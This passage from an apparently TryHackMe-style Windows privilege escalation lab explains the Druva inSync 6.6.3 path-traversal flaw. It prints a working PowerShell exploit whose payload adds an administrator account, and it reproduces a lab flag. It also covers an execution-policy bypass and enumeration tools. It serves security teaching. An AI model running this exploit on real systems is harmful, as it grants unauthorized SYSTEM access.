c:\windows\system32\inetsrv>whoami
nt authority\system
```
### Abusing vulnerable software

<span style="font-size: 23px;">**Unpatched Software**</span>

Software installed on the target system can present various privilege escalation opportunities. As with drivers, organisations and users may not update them as often as they update the operating system. You can use the `wmic` tool to list software installed on the target system and its versions. The command below will dump information it can gather on installed software (it might take around a minute to finish):

`wmic product get name,version,vendor`

```bash
C:\Users\thm-unpriv>wmic product get name,version,vendor
Name                                                            Vendor                                   Version
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29910     Microsoft Corporation                    14.28.29910
AWS Tools for Windows                                           Amazon Web Services Developer Relations  3.15.1248
VNC Server 6.8.0                                                RealVNC                                  6.8.0.45849
Amazon SSM Agent                                                Amazon Web Services                      3.0.529.0
aws-cfn-bootstrap                                               Amazon Web Services                      2.0.5
Druva inSync 6.6.3                                              Druva Technologies Pte. Ltd.             6.6.3.0
AWS PV Drivers                                                  Amazon Web Services                      8.3.4
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29910  Microsoft Corporation                    14.28.29910
```

Remember that the `wmic product` command may not return all installed programs. Depending on how some of the programs were installed, they might not get listed here. It is always worth checking desktop shortcuts, available services or generally any trace that indicates the existence of additional software that might be vulnerable.

Once we have gathered product version information, we can always search for existing exploits on the installed software online on sites like [exploit-db](https://www.exploit-db.com/), [packet storm](https://packetstorm.news/) or plain old [Google](https://www.google.com/), amongst many others.

<span style="font-size: 23px;">**Case Study: Druva inSync 6.6.3**</span>

The target server is running Druva inSync 6.6.3, which is vulnerable to privilege escalation as reported by [Matteo Malvica](https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/). The vulnerability results from a bad patch applied over another vulnerability reported initially for version 6.5.0 by [Chris Lyne](https://www.tenable.com/security/research/tra-2020-12).

The software is vulnerable because it runs an RPC (Remote Procedure Call) server on port 6064 with SYSTEM privileges, accessible from localhost only. If you aren't familiar with RPC, it is simply a mechanism that allows a given process to expose functions (called procedures in RPC lingo) over the network so that other machines can call them remotely.

In the case of Druva inSync, one of the procedures exposed (specifically procedure number 5) on port 6064 allowed anyone to request the execution of any command. Since the RPC server runs as SYSTEM, any command gets executed with SYSTEM privileges.

The original vulnerability reported on versions 6.5.0 and prior allowed any command to be run without restrictions. The original idea behind providing such functionality was to remotely execute some specific binaries provided with inSync, rather than any command. Still, no check was made to make sure of that.

A patch was issued, where they decided to check that the executed command started with the string `C:\ProgramData\Druva\inSync4\`, where the allowed binaries were supposed to be. But then, this proved insufficient since you could simply make a path traversal attack to bypass this kind of control. Suppose that you want to execute `C:\Windows\System32\cmd.exe`, which is not in the allowed path; you could simply ask the server to run `C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe` and that would bypass the check successfully.

To put together a working exploit, we need to understand how to talk to port 6064. Luckily for us, the protocol in use is straightforward, and the packets to be sent are depicted in the following diagram:


The first packet is simply a hello packet that contains a fixed string. The second packet indicates that we want to execute procedure number 5, as this is the vulnerable procedure that will execute any command for us. The last two packets are used to send the length of the command and the command string to be executed, respectively.

Initially published by Matteo Malvica [here](https://packetstormsecurity.com/files/160404/Druva-inSync-Windows-Client-6.6.3-Privilege-Escalation.html), the following exploit can be used in your target machine to elevate privileges and retrieve this task's flag. For your convenience, here is the original exploit's code:

```bash
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

You can pop a Powershell console and paste the exploit directly to execute it (The exploit is also available in the target machine at `C:\tools\Druva_inSync_exploit.txt`). Note that the exploit's default payload, specified in the `$cmd` variable, will create a user named `pwnd` in the system, but won't assign him administrative privileges, so we will probably want to change the payload for something more useful. For this room, we will change the payload to run the following command:

`net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add`

We are going to use Powershell ISE, and copy and paste our exploit code into it:



This will create user `pwnd` with a password of `SimplePass123` and add it to the administrators' group. If the exploit was successful, you should be able to run the following command to verify that the user `pwnd` exists and is part of the administrators' group:

```bash
C:\Users\thm-unpriv>net user pwnd
User name                    pwnd
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/26/2025 3:12:22 PM
Password expires             8/7/2025 3:12:22 PM
Password changeable          6/26/2025 3:12:22 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   6/26/2025 3:19:23 PM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
The command completed successfully.
```
When prompted for credentials, use the `pwnd` account. From the new command prompt, you can retrieve your flag from the Administrator's desktop with the following command `type C:\Users\Administrator\Desktop\flag.txt`



```bash
C:\Windows\system32>type C:\Users\Administrator\Desktop\flag.txt
THM{EZ_DLL_PROXY_4ME}
```
### Tools of the Trade

Several scripts exist to conduct system enumeration in ways similar to the ones seen in the previous task. These tools can shorten the enumeration process time and uncover different potential privilege escalation vectors. However, please remember that automated tools can sometimes miss privilege escalation.

Below are a few tools commonly used to identify privilege escalation vectors.

<span style="font-size: 23px;">**WinPEAS**</span>

WinPEAS is a script developed to enumerate the target system to uncover privilege escalation paths. You can find more information about winPEAS and download either the precompiled executable or a .bat script. WinPEAS will run commands similar to the ones listed in the previous task and print their output. The output from winPEAS can be lengthy and sometimes difficult to read. This is why it would be good practice to always redirect the output to a file, as shown below:

`winpeas.exe > outputfile.txt`

WinPEAS can be downloaded[here](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS).

<span style="font-size: 23px;">**PrivescCheck**</span>

PrivescCheck is a PowerShell script that searches common privilege escalation on the target system. It provides an alternative to WinPEAS without requiring the execution of a binary file.

PrivescCheck can be downloaded [here](https://github.com/itm4n/PrivescCheck).

**Reminder:** To run PrivescCheck on the target system, you may need to bypass the execution policy restrictions. To achieve this, you can use the `Set-ExecutionPolicy` cmdlet as shown below.

```bash
PS C:\> Set-ExecutionPolicy Bypass -Scope process -Force
PS C:\> . .\PrivescCheck.ps1
PS C:\> Invoke-PrivescCheck
```

<span style="font-size: 23px;">**WES-NG: Windows Exploit Suggester - Next Generation**</span>

Some exploit suggesting scripts (e.g. winPEAS) will require you to upload them to the target system and run them there. This may cause antivirus software to detect and delete them. To avoid making unnecessary noise that can attract attention, you may prefer to use WES-NG, which will run on your attacking machine(e.g. Kali).

WES-NG is a Python script that can be found and downloaded [here](https://github.com/bitsadmin/wesng).

Once installed, and before using it, type the `wes.py --update` command to update the database. The script will refer to the database it creates to check for missing patches that can result in a vulnerability you can use to elevate your privileges on the target system.

To use the script, you will need to run the `systeminfo` command on the target system. Do not forget to direct the output to a .txt file you will need to move to your attacking machine.

Once this is done, wes.py can be run as follows;

`wes.py systeminfo.txt`

<span style="font-size: 23px;">**Metasploit**</span>

If you already have a Meterpreter shell on the target system, you can use the `multi/recon/local_exploit_suggester` module to list vulnerabilities that may affect the target system and allow you to elevate your privileges on the target system.